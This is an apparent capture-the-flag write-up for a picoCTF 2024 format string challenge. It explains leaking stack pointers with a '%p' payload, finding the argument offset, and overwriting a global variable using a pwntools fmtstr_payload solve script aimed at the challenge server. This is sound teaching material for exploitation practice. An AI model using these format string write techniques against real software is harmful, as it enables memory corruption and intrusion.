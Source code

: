 ```c
  }

  return 0;
}
```

So what we can see here is that it checks if `sus` is equal to `0x67616c66`. However, what we can see is that `sus` is hardcoded to `0x21737573`, which means we need to find a way to overwrite sus to pass the condition.

So basically, here is plan:

-> Use a basic format string with A's and `%p` pointer to leak data from the program

-> This program is in x64, so we need to make sure we use 8 A's to fill out the stack frame. 

-> We will use the %p format to leak pointers in the format string

-> Here's our basic payload: `AAAAAAAA%p-%p-%p ...` we will repeat the use of `%p` to leak pointer addresses to find how many arguments we need.

->  We then will send a format string payload with the address of `sus`, the format string argument(s), the value of `0x67616c66`.

-> We will use pwntools to send the payload to the elf and pass the check, which will give us flag.

So let's get started.

![Image of info leak](/img/writeups/2024/picoCTF2024/formatstring02.png)

Wow! Lots of data! If we look closely we can see a pointer with the value of `0x4141414141414141` this must be where our input is stored on the stack.

Counting towards that pointer we get a argument amount of 14. Let's find the address of `sus`.

Luckily pwntools will give the address of `sus` through the python code `elf.symbols['sus']`

Let's put this into a solve script:

Wait? How does this work?

Basically, when we send the format string payload, pwntools will turn the address of `sus` as a pointer, and then write the value we give to it to that pointer, basically overwriting whatever initial value `sus` had. 

```python
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_payload, fmtstr_split

context.binary='vuln'
elf = ELF('./vuln')
libc = elf.libc

if args.REMOTE:
#change this on your own remote instance
	p = remote('rhea.picoctf.net', 61865)
else:
	p = process(elf.path)

def send_payload(payload):
	p.sendline(payload)
	p.interactive()

address = elf.symbols['sus']
print(address)
value = 0x67616c66   # this is the value admin needs to be
print(value)
#overwriting the sus address with the value we want
payload = fmtstr_payload(14, {address: value})
p.sendlineafter(b'say?', payload)
```